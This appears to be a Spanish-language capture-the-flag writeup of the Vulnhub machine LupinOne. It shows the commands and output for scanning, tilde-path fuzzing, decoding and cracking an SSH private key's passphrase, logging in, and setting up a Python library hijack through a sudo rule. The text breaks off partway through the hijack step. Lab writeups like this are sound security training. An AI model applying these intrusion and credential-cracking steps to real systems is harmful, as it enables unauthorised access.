+++
author = "Andrés Del Cerro"
title = "Vulnhub: LupinOne Writeup | Medium"
date = "2024-09-26"
description = ""
tags = [
    "Vulnhub",
    "LupinOne",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Fuzzing",
    "Information Disclosure",
    "ssh2john",
    "Hash Cracking",
    "Cracking",
    "User Pivoting",
    "Code Injection",
    "Abusing Missconfigured Python Library",
    "Abusing sudo privilege"
]

+++

# Hack The Box: LupinOne Writeup

Welcome to my detailed writeup of the medium difficulty machine **"LupinOne"** on Vulnhub. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 192.168.154.132 --ulimit 5000 -g
192.168.154.132 -> [22,80]
```

```console
$ nmap -p22,80 -sCV 192.168.154.132 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-26 11:24 CEST
Nmap scan report for 192.168.154.132
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 ed:ea:d9:d3:af:19:9c:8e:4e:0f:31:db:f2:5d:12:79 (RSA)
|   256 bf:9f:a9:93:c5:87:21:a3:6b:6f:9e:e6:87:61:f5:19 (ECDSA)
|_  256 ac:18:ec:cc:35:c0:51:f5:6f:47:74:c3:01:95:b4:0f (ED25519)
80/tcp open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/~myfiles
|_http-server-header: Apache/2.4.48 (Debian)
MAC Address: 00:0C:29:D7:53:D0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.32 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 192.168.154.132 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-26 11:25 CEST
Nmap scan report for 192.168.154.132
Host is up (0.00024s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
18818/udp closed unknown
22739/udp closed unknown
26423/udp closed unknown
26878/udp closed unknown
27064/udp closed unknown
27678/udp closed unknown
MAC Address: 00:0C:29:D7:53:D0 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
```

Como es una máquina de Vulnhub podemos suponer que es una máquina Linux, pero podemos comprobando revisando el TTL al hacer un ping.

```console
$ ping -c 1 192.168.154.132
PING 192.168.154.132 (192.168.154.132) 56(84) bytes of data.
64 bytes from 192.168.154.132: icmp_seq=1 ttl=64 time=0.271 ms

--- 192.168.154.132 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.271/0.271/0.271/0.000 ms
```

Y efectivamente vemos un TTL de 64 que suele corresponder con máquinas Linux.

Tampoco hay mucho para la intrusión, así que debe de ser por el servicio HTTP.

# HTTP Enumeration
`whatweb` no reporta nada relevante.
```console
$ whatweb http://192.168.154.132
http://192.168.154.132 [200 OK] Apache[2.4.48], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[192.168.154.132]
```

El sitio web se ve así, simplemente es la imagen de la máquina sin nada mas.


## Analyzing JPG image
Como la imagen adjunta es una imagen en formato JPG podemos ver si tiene algún metadato (otro tipo de imágenes también las tienen) o si se ha utilizado esteganografía para ocultar algo.

```console
$ wget http://192.168.154.132/image/arsene_lupin.jpg                              
--2024-09-26 11:28:29--  http://192.168.154.132/image/arsene_lupin.jpg                    
Connecting to 192.168.154.132:80... connected.                                            
HTTP request sent, awaiting response... 200 OK                                            
Length: 132381 (129K) [image/jpeg]                                                        
Saving to: ‘arsene_lupin.jpg’                                                             
                                                                                          
arsene_lupin.jpg       100%[==========================>] 129,28K  --.-KB/s    in 0,001s   
                                                                                          
2024-09-26 11:28:29 (150 MB/s) - ‘arsene_lupin.jpg’ saved [132381/132381] 
```

```console
$ exiftool arsene_lupin.jpg                                                       
ExifTool Version Number         : 12.57                                                   
File Name                       : arsene_lupin.jpg                                        
Directory                       : .                                                       
File Size                       : 132 kB                                                  
File Modification Date/Time     : 2021:02:13 10:17:10+01:00                               
File Access Date/Time           : 2024:09:26 11:28:29+02:00                               
File Inode Change Date/Time     : 2024:09:26 11:28:29+02:00                               
File Permissions                : -rw-r--r--                                                                    
File Type                       : PNG                   
File Type Extension             : png                                                                                                   
MIME Type                       : image/png                                                                     
Image Width                     : 630                                                                                                   
Image Height                    : 630                               
Bit Depth                       : 16                                
Color Type                      : RGB                                                                                                   
Compression                     : Deflate/Inflate                                                                                                             
Filter                          : Adaptive                                     
Interlace                       : Noninterlaced                                                                                                               
Image Size                      : 630x630                                      
Megapixels                      : 0.397       
```

No encontramos ningún metadato interesante.

Y rápidamente nos damos cuenta de que esta imagen realmente es un PNG.
```console
$ file arsene_lupin.jpg 
arsene_lupin.jpg: PNG image data, 630 x 630, 16-bit/color RGB, non-interlaced
```

Por lo cual con herramientas como `stegseek` no podemos obtener nada.
```console
$ stegseek -sf arsene_lupin.jpg -wl /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[!] error: the file format of the file "arsene_lupin.jpg" is not supported.
```

## Fuzzing -> Discovering hidden path
Revisando el `robots.txt` encontramos algo interesante.


Un poco raro este 404...


Vemos que el error cambia, por lo cual el recurso `~myfiles` si que existe, pero probablemente el `index.html` dentro de este directorio contenga el falso 404 que hemos visto anteriormente.


Fuzzeando con `feroxbuster` no encontré nada, ningún archivo ni ruta relevante.

Como sabemos que con la virgulilla podemos acceder a algunos recursos, podemos fuzzear por la ruta utilizando la virgulilla.

Para ello vamos a utilizar `wfuzz`
```console
$ wfuzz --hc=404 -c -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medi
um.txt -t 100 http://192.168.154.132/~FUZZ
```

Y nos encontramos una ruta `http://192.168.154.132/~secret/`


Nos encontramos una ruta.


Nos podemos fijar que existe el usuario `icex64` quiero pensar.

Como dice que el archivo está oculto en algún sitio, podemos probar a fuzzear por nombres de archivos con un `.` delante.

Para ello podemos usar `wfuzz` otra vez.
```console
$ wfuzz --hc=404 -c -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 http://192.168.154.132/~secret/.FUZZ
```

Y me después de un rato me di cuenta de algo extraño. Todas las peticiones que empiecen por `ht` devuelven un 403.


Aquí podemos ver que me devuelve un 403.


Y aquí un 404.


Pero esto es normal y es un comportamiento habitual en los servidores web Apache.

Los archivos que comienzan con ".ht" son tratados de manera especial en servidores Apache porque, tradicionalmente, archivos como `.htaccess` y `.htpasswd` se utilizan para la configuración y gestión de acceso. Para proteger estos archivos críticos, Apache está configurado por defecto para **negar el acceso** a cualquier archivo que comience con ".ht". Esto es una medida de seguridad para evitar que se expongan configuraciones o credenciales sensibles.

Entonces probé a fuzzear con extensiones.
Para ello utilicé `ffuf` ya que tiene una función para fuzzear también por extensiones que es mas cómoda que la que tiene `wfuzz`
```console
$ ffuf -u http://192.168.154.132/~secret/.FUZZ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -e .txt,.html,.zip,.gz -fc 403,404
```

Y descubrimos un archivo `mysecret.txt`


Y vemos una cadena de texto que tiene pinta de ser base64.


# id_rsa cracking with `ssh2john` + `john`
Aunque vemos que al convertirlo desde base64 no es legible.


Tampoco muestra ningún tipo de dato basándose en los magic numbers, así que por aquí no es.
```console
$ file download.dat 
download.dat: data
```

Probando uno por uno todos las codificaciones "base", encontré que el texto es una clave privada codificada en base58.


Al intentar conectarme por SSH como el usuario `icex64` me di cuenta de que la clave está protegida por passphrase.

```console
$ micro id_rsa
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/empire/content]
└──╼ [★]$ chmod 600 id_rsa 
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/empire/content]
└──╼ [★]$ ssh icex64@192.168.154.132 -i id_rsa 
Enter passphrase for key 'id_rsa': 
```

Podemos obtener el hash de la clave privada para intentar crackearlo con `ssh2john`
```console
$ ssh2john id_rsa > hash.id_rsa
```

Podemos intentar crackear el hash con `john` pero después de un rato no conseguí nada y no era normal tanto tiempo crackeando para una máquina de dificultad media.
```console
$ john -w=/usr/share/wordlists/rockyou.txt hash.id_rsa 
```

Leyendo otra vez la nota, decía que había escondido la clave para que no sea crackeada con `fasttrack`


Buscando que es, me di cuenta de que es un diccionario.


Me descargué ese diccionario.
```console
$ wget https://raw.githubusercontent.com/drtychai/wordlists/refs/heads/master/fasttrack.txt
--2024-09-26 12:16:52--  https://raw.githubusercontent.com/drtychai/wordlists/refs/heads/master/fasttrack.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2015 (2,0K) [text/plain]
Saving to: ‘fasttrack.txt’

fasttrack.txt          100%[==========================>]   1,97K  --.-KB/s    in 0s      

2024-09-26 12:16:52 (22,5 MB/s) - ‘fasttrack.txt’ saved [2015/2015]
```

Y lo intenté crackear otra vez con `john` y esta vez si hubo suerte.
```console
$ john -w=./fasttrack.txt hash.id_rsa 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@55w0rd!        (id_rsa)     
1g 0:00:00:01 DONE (2024-09-26 12:17) 0.5434g/s 34.78p/s 34.78c/s 34.78C/s Winter2015..password2
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

La credencial de la clave privada es `P@55w0rd!`

Y ahora si que podemos iniciar sesión.
```console
$ ssh icex64@192.168.154.132 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Linux LupinOne 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64
########################################
Welcome to Empire: Lupin One
########################################
Last login: Thu Oct  7 05:41:43 2021 from 192.168.26.4
icex64@LupinOne:~$ id
uid=1001(icex64) gid=1001(icex64) groups=1001(icex64)
```

Y leer la flag de usuario, muy bonita por cierto.
```console
icex64@LupinOne:~$ cat user.txt 
    ...,    ,...    ..,.   .,,  *&@@@@@@@@@@&/.    ,,,.   .,..    ...,    ...,  
    ,,,.    .,,,    *&@@%%%%%%%%%%%%%%%%%%%%%%%%%%%&@,.   ..,,    ,,,,    ,,,.  
..,.    ,..,  (@&#%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%&%,.    ..,,    ,...    ..
    .... .@&%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@  ....    ....    ,...  
    .,#@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@  .,..    ,.,.    ...,  
.,,,&%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@#@.,    .,.,    .,..    .,
...@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%&@####@*.    ..,,    ....    ,.
   @%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@@%#######@% .,.,    .,.,    .,.,  
..,,@@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@@@@@@@@%#######@@,    ..,.    ,..,    ..
.,,, @@@@@@@@&%%%%%%%%%%%%%&@@@@@@@@@@@@@@@@@@@%%%#####@@,    .,,,    ,,.,    .,
    ..@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%###@@ .,..    ...,    ....  
...,  .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%#&@.    ...,    ...,    ..
....   #@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%%%@.    ....    ....    ..
    .,.,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&%%%%%%%#@*.,.,    .,.,    ..@@@@
..,.    .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%#@@    ..,.    ,..*@&&@@.
.,,.    ,.@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%%@@    .,,.    .@&&&@( ,,
    ,.,.  .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&%%%%%%%@@%%&@@@, ,,,@&@@@.,,,  
....    ...#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&&%%%%&%,@%%%%%%%#@@@@@%..    ..
...,    ...,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&&&&@,*,,@%%%%%%@@@&@%%@..    ..
    ,,.,    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@/,***,*,@%%%@@&@@@%%###@ ,,.,  
    .,. @@&&&@@,,/@@@@@@@@@@@@@@@@@@@@@@@@#,,,,,,,,,*,,@%%%@&&@@%%%%%##&* ,...  
.,,, @@&@@&@&@@%,*,*,*,*,***,*,*,***,*,*,*,*,*,*,**,&@%%&@@@&@%%%%%%%%@/.,    .,
  /@@&&&&&&&&&&@@*,,,,,,,,,,,,,,,,,,,,,,*,,,**,%@&%%%%@&&&@%%%%%%%%%@(    ,..,  
 @&@&@&@&@&@&@&&@@@@@(,*,*,,**,*,*,,,*#&@@&%%%%%%%%&@@@@@%%%%%%%%@&..,    .,.,  
@@@&&&&&&&&&&&&&&&&&@@@&&&@@@@&&@@&&@&&&%&%%%%%%%@&&&@&%%%%%%&@,..    ...,    ..
 @&&&@&@&@&@&@&@&@&@&@&@&@&@&&@@@&&&&&&&%&%%%%&@&&@@%%%#&@%..,    .,.,    .,.,  
  @@@@&&&&&&&&&&&&&&&&&&&&&&@&&&&&&&&&&&%%&%@&@&@&@@%..   ....    ....    ,..,  
.,,, *@@&&&@&@&@&@&@&@&&&&&&&&&&&&&&&&&%&&@@&&@....    ,.,    .,,,    ,,..    .,
    ,,,,    .,%@@@@@@@@@@@@@@@@%,  ...,@@&&@(,,    ,,,.   .,,,    ,,.,    .,,.  
    .,.,    .,,,    .,,.   ..,.    ,*@@&&@ ,,,,    ,.,.   .,.,    .,.,    .,.,  
...,    ....    ....    ,..    ,..@@@&@#,..    ....    ,..    ...,    ....    ..
    ....    ....    ...    ....@.,%&@..    ....    ...    ....    ....    ....  
    ...,    ....    ....   .*/,...&.,,,    ....    ....   .,..    ...,    ...,  
.,.,    .,.,    ,,.,    .,../*,,&,,    ,.,,    ,.,,    ..,    .,.,    .,.,    ,,

3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}
```

# User Pivoting
Detectamos que existe otro usuario llamado `arsene` en el sistema.
```console
icex64@LupinOne:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
arsene:x:1000:1000:arsene,,,:/home/arsene:/bin/bash
icex64:x:1001:1001:,,,:/home/icex64:/bin/bash
```

Rápidamente detectamos un script en python el cual tenemos permiso de ejecución como el usuario `arsene`
```console
icex64@LupinOne:~$ sudo -l
Matching Defaults entries for icex64 on LupinOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icex64 may run the following commands on LupinOne:
    (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

## Abusing Missconfigured Python Library
El script es simplemente abrir un sitio web con `webbrowser`
```python
import webbrowser

print ("Its not yet ready to get in action")

webbrowser.open("https://empirecybersecurity.co.mz"
```

No tenemos permisos para modificar este script.
```console
icex64@LupinOne:~$ ls -la /home/arsene/heist.py
-rw-r--r-- 1 arsene arsene 118 Oct  4  2021 /home/arsene/heist.py
```

Vamos a comprobar si tenemos permisos para editar el `path` de `python` y hacer un `library hijacking`
```console
icex64@LupinOne:~$ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python39.zip', '/usr/lib/python3.9', '/usr/lib/python3.9/lib-dynload', '/usr/local/lib/python3.9/dist-packages', '/usr/lib/python3/dist-packages']
```

